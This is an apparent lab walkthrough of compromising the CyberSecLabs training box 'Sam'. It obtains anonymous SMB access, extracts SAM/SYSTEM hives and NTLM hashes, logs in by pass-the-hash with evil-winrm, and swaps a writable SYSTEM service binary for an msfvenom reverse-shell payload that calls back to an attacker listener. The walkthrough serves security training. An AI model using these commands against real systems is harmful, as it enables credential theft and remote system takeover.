In this walkthrough, we'll go over a beginner level box called ***Sam*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).



Let's start the scanning process with nmap:
```bash
nmap -A -T4 -p- 172.31.1.18
```


We can see that the SMB is open and it looks like anonymous login is also available. Let's see if we can list the shares `smbclient -L 172.31.1.18`:



We can see a share called "backups" and we can try to login with `smbclient \\\\172.31.1.18\\backups -U anonymous`:



From this point on, we can look for ***SAM and SYSTEM*** files in ***Windows\System32\config***:



We can copy these files as ***SYSTEM.hiv and SAM.hiv*** and crack the hashes by using `samdump2 SYSTEM.hiv SAM.hiv`:



Since we have the hashes, we can use evil-winrm to log into this machine `evil-winrm -i 172.31.1.18 -u jamie -H 68b1d3b0493ec0d6a1c0b8725062ab71`:



We can check the services first to see if there are any unusual services running:



As we can see there are two services monitor1 and monitor2. We can run sc on monitor1 `sc.exe qc monitor1`:



It looks like we can start and stop this service on-demand so let's check the permissions on this `icacls.exe C:\Services\monitor1.exe`:



Since this service runs with "NT AUTHORITY\SYSTEM" privileges, we can create an executable and replace this exe with ours and start it.
Let's create an exe file with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.34 LPORT=6666 -f exe -o monitor1.exe` and upload it to the target machine.
We can start a nc listener with `nc -nlvp 6666`. Now, we can run `sc.exe start monitor1`:



Now, we get a shell back as "NT AUTHORITY\SYSTEM":



I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
